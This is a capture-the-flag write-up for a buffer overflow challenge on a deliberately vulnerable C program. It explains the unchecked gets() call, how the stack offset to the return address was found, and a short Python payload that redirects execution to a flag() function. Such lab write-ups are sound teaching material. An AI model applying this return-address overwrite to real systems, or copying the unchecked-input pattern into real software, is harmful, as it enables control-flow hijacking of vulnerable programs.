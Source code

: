 - - - -
### Problem:
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 on the shell server. Source.

- - - -
### Goal:
Get address of flag function. Buffer overlow.

- - - -
### Solution:
We want to hijack the control flow and execute the `flag()` function to win. To do so, we will perform a buffer overflow on the `vuln()` function.

Again, the `vuln()` function is a classic vulnerability to a buffer overflow. It is getting an unlimited and unchecked input from the user. In this case `BUFFSIZE=64`. We can write more than 64 bytes and overwrite the stored return address.
```c
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

How far is the stored return address? I used IdaFree to run the program and observe the stack. As shown below, we will need to write (64 + 4 + 4 + 4) of filler data. Then we will need to write the return address to the stack in little endian.
```
64 bytes  # buffer
4 bytes   # data -> .rodata:aFlagFileIsMiss+54
4 bytes   # data -> .got.plt:_GLOBAL_OFFSET_TABLE_
4 bytes   # data -> [stack]:FFC6C628
4 bytes   # return address
```

What is the return address? We can find this by running `nm ./vuln` which will list the addresses of the symbols associated with vuln. This will show the following.
```bash
$ nm vuln
...
0804865f T vuln
...
080485e6 T flag
```

Based on the above information, I built the following exploit
```python
cmd = b'A' * 64  # buffer
cmd += b'B' * 4  # data -> .rodata:aFlagFileIsMiss+54
cmd += b'C' * 4  # data -> .got.plt:_GLOBAL_OFFSET_TABLE_
cmd += b'D' * 4  # data -> [stack]:FFC6C628
cmd += p32(0x080485e6)  # overwrite return
```